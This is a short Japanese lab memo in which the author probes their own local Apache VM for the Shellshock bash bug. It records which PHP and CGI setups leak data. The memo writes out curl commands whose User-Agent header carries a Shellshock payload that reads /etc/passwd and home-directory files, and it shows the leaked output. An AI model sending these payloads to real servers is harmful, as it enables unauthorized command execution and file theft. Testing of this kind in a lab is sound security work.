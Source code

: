 ```yaml
---
Keywords:CLI,こっそり置いておく
Copyright: (C) 2017 Ryuichi Ueda
---
```

# 実験メモ
何の実験かは・・・あれですね・・・。<br />
<br />
こういうファイルを準備。<br />
[bash]<br />
[root\@localhost httpd]# cat /var/www/html/index.php <br />
#!/usr/bin/env php<br />
<br />
&lt;?php<br />
	system('date');<br />
?&gt;<br />
[/bash]<br />
<br />
<!--more--><br />
<br />
httpd.confのOptionsのところにExecCGIを追加し、<br />
下にAddHandlerを書く。<br />
<br />
[bash]<br />
 Options Indexes FollowSymLinks ExecCGI<br />
 AddHandler cgi-script php<br />
[/bash]<br />
<br />
ホームの下にファイルを準備<br />
[bash]<br />
[ueda\@localhost ~]$ ls -l mysecret <br />
-rw-rw-r--. 1 ueda ueda 13 10月 3 20:07 2014 mysecret<br />
[ueda\@localhost ~]$ cat mysecret <br />
私の秘密<br />
[/bash]<br />
<br />
外側からcurlでつっつく。ポートフォワードでhttp://localhost:8888からつっつく。<br />
[bash]<br />
uedambp:~ ueda$ curl -A '() { :; }; /bin/cat /home/ueda/*' http://localhost:8888/index.php<br />
[/bash]<br />
<br />
ログを確認。パーミッションで守られている。<br />
[bash]<br />
[root\@localhost httpd]# tail error_log <br />
...<br />
[Fri Oct 03 20:19:15 2014] [error] [client 10.0.2.2] /bin/cat: <br />
[Fri Oct 03 20:19:15 2014] [error] [client 10.0.2.2] /home/ueda/*<br />
[Fri Oct 03 20:19:15 2014] [error] [client 10.0.2.2] : Permission denied<br />
[Fri Oct 03 20:19:15 2014] [error] [client 10.0.2.2] <br />
[/bash]<br />
<br />
もう一度突っつく。別のものを。<br />
[bash]<br />
uedambp:~ ueda$ curl -A '() { :; }; /bin/cat /etc/passwd | /usr/bin/tail -n 3' http://localhost:8888/index.php<br />
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin<br />
ueda:x:500:500::/home/ueda:/bin/bash<br />
apache:x:48:48:Apache:/var/www:/sbin/nologin<br />
[/bash]<br />
守られていない・・・。<br />
<br />
<br />
今度はhttpd.confから追記部分をもう一度削り、index.phpを次のように書き換える。<br />
[bash]<br />
[root\@localhost httpd]# cat /var/www/html/index.php <br />
&lt;?php<br />
	system('date');<br />
?&gt;<br />
[/bash]<br />
<br />
もう一度突っつく。<br />
[bash]<br />
uedambp:~ ueda$ curl -A '() { :; }; /bin/cat /etc/passwd | /usr/bin/tail -n 3' http://localhost:8888/index.php<br />
Fri Oct 3 20:27:38 JST 2014<br />
[/bash]<br />
大丈夫。<br />
<br />
もう一度CGIモードで。こんなコード。<br />
[bash]<br />
[root\@localhost httpd]# cat /var/www/html/index.php <br />
#!/usr/bin/php<br />
<br />
&lt;?php<br />
	print(&quot;hoge\\n&quot;);<br />
?&gt;<br />
[/bash]<br />
<br />
[bash]<br />
uedambp:IPSJ_SHELLSHOCK ueda$ curl -A '() { :; }; /bin/cat /etc/passwd | /usr/bin/tail -n 3' http://localhost:8888/index.php 2&gt; /dev/null<br />
hoge<br />
[/bash]<br />
<br />
大丈夫。<br />
<br />
これは・・・<br />
[bash]<br />
[root\@localhost httpd]# cat /var/www/html/index.php <br />
#!/usr/bin/php<br />
<br />
&lt;?php<br />
	system(&quot;date&quot;);<br />
?&gt;<br />
[/bash]<br />
<br />
ダメ。<br />
[bash]<br />
uedambp:IPSJ_SHELLSHOCK ueda$ curl -A '() { :; }; /bin/cat /etc/passwd | /usr/bin/tail -n 3' http://localhost:8888/index.php 2&gt; /dev/null<br />
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin<br />
ueda:x:500:500::/home/ueda:/bin/bash<br />
apache:x:48:48:Apache:/var/www:/sbin/nologin<br />
[/bash]
